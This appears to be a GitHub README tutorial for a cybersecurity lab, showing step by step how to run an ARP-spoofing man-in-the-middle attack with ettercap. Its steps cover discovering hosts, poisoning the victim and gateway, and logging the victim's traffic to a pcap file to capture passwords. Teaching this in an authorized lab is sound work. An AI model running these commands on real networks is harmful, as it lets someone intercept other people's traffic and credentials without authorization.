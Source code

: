 # ⚠️ MITM Attack with Ettercap (CLI Mode)

> This guide demonstrates how to perform a Man-in-the-Middle (MITM) attack using `ettercap` in **command-line mode**, for **educational purposes** in a **controlled lab environment**.

---

## 📦 Requirements

- OS: Kali Linux, Parrot OS, or any Linux distro with `ettercap-text-only`
- Tools: Ettercap CLI, Netdiscover or Nmap
- Setup:
  - Attacker: Kali Linux
  - Victim: Any host on the same LAN
  - Gateway: Your router

---

## 📥 Installation

```bash
sudo apt update
sudo apt install ettercap-text-only netdiscover nmap
```

##🌐 Step 1: Identify Network Interface
```bash
ip a
```
Example interface: eth0, wlan0, etc.

---
##🔍 Step 2: Scan for Hosts
###Option 1: Netdiscover
```bash
sudo netdiscover -i eth0
```

---
###Option 2: Nmap
```bash
sudo nmap -sn 192.168.0.0/24
```
Note the IPs of:

Victim device → VICTIM_IP

Gateway (router) → GATEWAY_IP

Your interface → INTERFACE

##🧪 Step 3: Perform ARP Spoofing (MITM)
```bash
sudo ettercap -T -M arp:remote /VICTIM_IP_1// /VICTIM_IP_2// -i INTERFACE
```

##Example:
```bash
sudo ettercap -T -M arp:remote /192.168.0.105// /192.168.0.1// -i eth0

```
---
## :Flags Explained:

-T: Text (CLI) mode

-M arp:remote: ARP spoofing for both directions

/target1/ /target2/: Victim and Gateway IPs

-i: Interface to use

---
##🔐 Step 4: Capture Passwords (Optional)
```bash
sudo ettercap -T -M arp:remote -w mitm_log.pcap /VICTIM_IP// /GATEWAY_IP// -i INTERFACE
```
##Open the log with Wireshark:

```bash
wireshark mitm_log.pcap
```

---
##🔚 Step 5: Stop the Attack
To quit Ettercap, press q.

To restore ARP tables manually:
```bash
sudo ettercap -T -P restore_arp -i INTERFACE
```
---

##⚠️ Legal Warning
This guide is provided for educational and authorized penetration testing only.
Unauthorized access to networks or data is illegal and punishable by law.
Always get written permission before testing any network.

---

##📌 Author

Created by:Nahid Chowdury- CSE, DU

For: Ethical Hacking / Cybersecurity Lab Practice


